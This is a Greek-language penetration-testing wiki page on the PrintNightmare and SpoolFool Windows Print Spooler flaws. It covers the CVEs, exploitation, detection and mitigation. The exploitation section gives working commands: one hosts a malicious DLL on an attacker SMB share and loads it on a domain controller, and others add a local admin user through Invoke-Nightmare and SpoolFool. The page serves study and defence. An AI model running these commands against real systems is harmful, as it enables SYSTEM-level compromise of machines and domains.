 # PrintNightmare (Windows Print Spooler RCE/LPE)

{{#include ../../banners/hacktricks-training.md}}

> Το PrintNightmare είναι το συλλογικό όνομα που δίνεται σε μια οικογένεια ευπαθειών στην υπηρεσία **Print Spooler** των Windows που επιτρέπει **εκτέλεση αυθαίρετου κώδικα ως SYSTEM** και, όταν ο spooler είναι προσβάσιμος μέσω RPC, **απομακρυσμένη εκτέλεση κώδικα (RCE) σε ελεγκτές τομέα και διακομιστές αρχείων**. Οι πιο εκμεταλλευόμενες CVEs είναι **CVE-2021-1675** (αρχικά καταταγμένη ως LPE) και **CVE-2021-34527** (πλήρης RCE). Οι επόμενες ζητήματα όπως **CVE-2021-34481 (“Point & Print”)** και **CVE-2022-21999 (“SpoolFool”)** αποδεικνύουν ότι η επιφάνεια επίθεσης είναι ακόμα μακριά από το να κλείσει.

---

## 1. Ευπαθή συστατικά & CVEs

| Έτος | CVE | Σύντομο όνομα | Primitive | Σημειώσεις |
|------|-----|---------------|-----------|------------|
|2021|CVE-2021-1675|“PrintNightmare #1”|LPE|Διορθώθηκε τον Ιούνιο 2021 CU αλλά παρακάμφθηκε από το CVE-2021-34527|
|2021|CVE-2021-34527|“PrintNightmare”|RCE/LPE|Το AddPrinterDriverEx επιτρέπει σε αυθεντικοποιημένους χρήστες να φορτώσουν ένα DLL οδηγού από μια απομακρυσμένη κοινή χρήση|
|2021|CVE-2021-34481|“Point & Print”|LPE|Εγκατάσταση μη υπογεγραμμένου οδηγού από μη διαχειριστές χρήστες|
|2022|CVE-2022-21999|“SpoolFool”|LPE|Δημιουργία αυθαίρετου καταλόγου → Φύτευση DLL – λειτουργεί μετά τις διορθώσεις του 2021|

Όλες τους εκμεταλλεύονται μία από τις μεθόδους **MS-RPRN / MS-PAR RPC** (`RpcAddPrinterDriver`, `RpcAddPrinterDriverEx`, `RpcAsyncAddPrinterDriver`) ή σχέσεις εμπιστοσύνης μέσα στο **Point & Print**.

## 2. Τεχνικές εκμετάλλευσης

### 2.1 Συμβιβασμός απομακρυσμένου ελεγκτή τομέα (CVE-2021-34527)

Ένας αυθεντικοποιημένος αλλά **μη προνομιούχος** χρήστης τομέα μπορεί να εκτελέσει αυθαίρετα DLL ως **NT AUTHORITY\SYSTEM** σε έναν απομακρυσμένο spooler (συχνά ο DC) με:
```powershell
# 1. Host malicious driver DLL on a share the victim can reach
impacket-smbserver share ./evil_driver/ -smb2support

# 2. Use a PoC to call RpcAddPrinterDriverEx
python3 CVE-2021-1675.py victim_DC.domain.local  'DOMAIN/user:Password!' \
-f \
'\\attacker_IP\share\evil.dll'
```
Δημοφιλή PoCs περιλαμβάνουν **CVE-2021-1675.py** (Python/Impacket), **SharpPrintNightmare.exe** (C#) και τα modules `misc::printnightmare / lsa::addsid` του Benjamin Delpy σε **mimikatz**.

### 2.2 Τοπική κλιμάκωση προνομίων (οποιοδήποτε υποστηριζόμενο Windows, 2021-2024)

Η ίδια API μπορεί να κληθεί **τοπικά** για να φορτώσει έναν οδηγό από `C:\Windows\System32\spool\drivers\x64\3\` και να αποκτήσει προνόμια SYSTEM:
```powershell
Import-Module .\Invoke-Nightmare.ps1
Invoke-Nightmare -NewUser hacker -NewPassword P@ssw0rd!
```
### 2.3 SpoolFool (CVE-2022-21999) – παράκαμψη διορθώσεων του 2021

Οι διορθώσεις της Microsoft το 2021 μπλόκαραν τη φόρτωση απομακρυσμένων οδηγών αλλά **δεν ενίσχυσαν τα δικαιώματα καταλόγου**. Το SpoolFool εκμεταλλεύεται την παράμετρο `SpoolDirectory` για να δημιουργήσει έναν αυθαίρετο κατάλογο κάτω από `C:\Windows\System32\spool\drivers\`, ρίχνει ένα payload DLL και αναγκάζει τον spooler να το φορτώσει:
```powershell
# Binary version (local exploit)
SpoolFool.exe -dll add_user.dll

# PowerShell wrapper
Import-Module .\SpoolFool.ps1 ; Invoke-SpoolFool -dll add_user.dll
```
> Η εκμετάλλευση λειτουργεί σε πλήρως ενημερωμένα Windows 7 → Windows 11 και Server 2012R2 → 2022 πριν από τις ενημερώσεις του Φεβρουαρίου 2022

---

## 3. Ανίχνευση & κυνήγι

* **Event Logs** – ενεργοποιήστε τα κανάλια *Microsoft-Windows-PrintService/Operational* και *Admin* και παρακολουθήστε για **Event ID 808** “Ο εκτυπωτής απέτυχε να φορτώσει ένα πρόσθετο” ή για μηνύματα **RpcAddPrinterDriverEx**.
* **Sysmon** – `Event ID 7` (Εικόνα φορτωμένη) ή `11/23` (Γράψιμο/διαγραφή αρχείου) μέσα στο `C:\Windows\System32\spool\drivers\*` όταν η γονική διαδικασία είναι **spoolsv.exe**.
* **Process lineage** – ειδοποιήσεις όποτε η **spoolsv.exe** δημιουργεί `cmd.exe`, `rundll32.exe`, PowerShell ή οποιοδήποτε μη υπογεγραμμένο δυαδικό.

## 4. Μετριασμός & σκληραγώγηση

1. **Ενημερώστε!** – Εφαρμόστε την τελευταία σωρευτική ενημέρωση σε κάθε Windows host που έχει εγκατεστημένη την υπηρεσία Print Spooler.
2. **Απενεργοποιήστε τον spooler όπου δεν απαιτείται**, ειδικά σε Domain Controllers:
```powershell
Stop-Service Spooler -Force
Set-Service Spooler -StartupType Disabled
```
3. **Αποκλείστε απομακρυσμένες συνδέσεις** ενώ επιτρέπετε την τοπική εκτύπωση – Ομαδική Πολιτική: `Computer Configuration → Administrative Templates → Printers → Allow Print Spooler to accept client connections = Disabled`.
4. **Περιορίστε το Point & Print** ώστε μόνο οι διαχειριστές να μπορούν να προσθέτουν οδηγούς ρυθμίζοντας την τιμή μητρώου:
```cmd
reg add "HKLM\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint" \
/v RestrictDriverInstallationToAdministrators /t REG_DWORD /d 1 /f
```
Λεπτομερής καθοδήγηση στο Microsoft KB5005652

---

## 5. Σχετική έρευνα / εργαλεία

* [mimikatz `printnightmare`](https://github.com/gentilkiwi/mimikatz/tree/master/modules) modules
* SharpPrintNightmare (C#) / Invoke-Nightmare (PowerShell)
* SpoolFool exploit & write-up
* 0patch micropatches για SpoolFool και άλλα σφάλματα του spooler

---

**Περισσότερη ανάγνωση (εξωτερικά):** Δείτε την ανάρτηση blog του 2024 – [Understanding PrintNightmare Vulnerability](https://www.hackingarticles.in/understanding-printnightmare-vulnerability/)

## Αναφορές

* Microsoft – *KB5005652: Διαχείριση της νέας συμπεριφοράς εγκατάστασης προεπιλεγμένου οδηγού Point & Print*
<https://support.microsoft.com/en-us/topic/kb5005652-manage-new-point-and-print-default-driver-installation-behavior-cve-2021-34481-873642bf-2634-49c5-a23b-6d8e9a302872>
* Oliver Lyak – *SpoolFool: CVE-2022-21999*
<https://github.com/ly4k/SpoolFool>
{{#include ../../banners/hacktricks-training.md}}
